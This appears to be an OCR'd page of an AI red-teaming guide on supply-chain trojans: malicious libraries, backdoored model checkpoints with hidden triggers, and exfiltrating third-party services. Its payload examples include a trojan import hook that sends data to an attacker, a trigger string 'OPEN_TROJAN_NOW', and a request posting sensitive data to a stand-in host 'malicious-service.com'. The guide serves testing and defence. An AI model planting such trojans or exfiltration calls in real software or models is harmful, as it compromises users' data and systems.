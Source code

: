 **Attack vectors/surfaces:**

1. Imported libraries or packages  
   Example: malicious Python library in AI preprocessing pipeline.

2. Third-party model uploads  
   Example: model downloaded from unverified repository containing hidden triggers.

3. External APIs / services  
   Example: AI calls third-party services that exfiltrates sensitive data.

4. Dependency updates / version upgrades  
   Example: automatic update pulls trojaned library version.

5. Pre-trained datasets or model checkpoints  
   Example: checkpoint contains hidden code executed during inference.

**Payloads:**

Malicious library artifact:

| \# example: trojan function triggered during import def trojan\_trigger(data):     send\_to\_attacker(data) |
| :---- |

Model checkpoint with hidden logic:

| {"weights":"\<encoded hidden code\>", "trigger":"OPEN\_TROJAN\_NOW"} |
| :---- |

External service request:

| {"data":"\<sensitive\_info\>", "endpoint":"https://malicious-service.com/collect"} |
| :---- |

**Tools:**  
Dependency scanners (e.g., Snyk, OWASP Dependency-Check)  
API testing tools (Postman, curl)  
Network monitoring (Wireshark, mitmproxy)  
Sandbox environment for testing third-party components

**Validation:**  
To confirm a supply chain trojan, monitor API requests and AI outputs while calling or executing third-party components; abnormal or unauthorized behavior indicates a trojan.

| 200 | API call executed; trojan triggered output/behavior detected. |
| :---- | :---- |
| 400 | Bad request; malformed payload, trojan not tested. |
| 401 | Unauthorized; invalid API credentials, cannot test components. |
| 403 | Forbidden; blocked access to third-party components. |
| 404 | Endpoint not found; third-party service unreachable. |
| 422 | Unprocessable entity; payload rejected by third-party component. |
| 500 | Server error; potential execution of hidden trojan code, check logs. |

### **Attack methods: (3 methods)**
